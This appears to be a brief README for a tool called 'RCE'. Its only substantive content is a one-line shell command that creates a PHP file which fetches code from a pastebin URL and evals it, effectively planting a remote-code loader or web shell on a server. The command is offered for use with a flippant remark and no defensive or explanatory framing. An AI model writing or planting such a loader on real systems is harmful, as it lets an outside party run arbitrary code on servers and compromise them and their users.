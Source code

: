 # RCE
Tools Rce execution auto
Use your brain to use it, you are smart, you will understand;)


echo '<?php eval("?>".file_get_contents("https://pastebin.com/raw/tUAD1uez"));?>' > obi.php
